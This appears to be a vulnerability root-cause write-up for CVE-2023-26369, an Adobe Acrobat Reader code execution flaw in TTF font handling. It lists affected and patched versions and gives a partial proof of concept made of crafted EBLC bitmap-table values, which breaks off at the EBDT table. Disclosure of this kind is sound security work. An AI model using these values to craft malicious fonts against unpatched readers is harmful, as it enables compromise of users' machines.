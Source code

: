 # CVE-2023-26369: Adobe Acrobat PDF Reader RCE when processing TTF fonts

Clement Lecigne, Google Threat Analysis Group

## The Basics

**Disclosure or Patch Date:** September, 12, 2023

**Product:** Adobe Acrobat Reader on Windows and MacOS

**Advisory:** https://helpx.adobe.com/security/products/acrobat/apsb23-34.html

**Affected Versions:** 23.003.20284 and earlier versions

**First Patched Version:** 23.006.20320

**Issue/Bug Report:** N/A

**Patch CL:** N/A (closed source)

**Bug-Introducing CL:** N/A

**Reporter(s):** Anonymous

## The Code

**Proof-of-concept:**

TTF font with the following bitmap tables.

```
EBLC :
     version : 0x20000
     numSizes : 0x1
     [-] 0th bitmapSizeTable
         indexSubTableArrayOffset : 0x38
         indexTablesSize : 0x100
         numberOfIndexSubTables : 0x2
         colorRef : 0x0
         hori : 0b fe 08 01 00 00 00 00 0b fe 00 00
         vert : 00 00 00 00 00 00 00 00 00 00 00 00
         startGlyphIndex : 0x4d
         endGlyphIndex : 0x4e
         ppemX : 0xfa
         ppemY : 0xfa
         bitDepth : 0x1
         flags : 0x1
         [-] 0th subArray
             firstGlyphIndex : 0x4d
             lastGlyphIndex : 0x4d
             additionalOffsetToIndexSubtable : 0x10
             indexFormat : 0x1
             imageFormat : 0x8
             imageDataOffset : 0x4
             offsetArray0 : 0x0
             offsetArray1 : 0x0
         [-] 1th subArray
             firstGlyphIndex : 0x4e
             lastGlyphIndex : 0x4e
             additionalOffsetToIndexSubtable : 0x20
             indexFormat : 0x1
             imageFormat : 0x1
             imageDataOffset : 0x4
             offsetArray0 : 0x0
             offsetArray1 : 0xc
EBDT :
```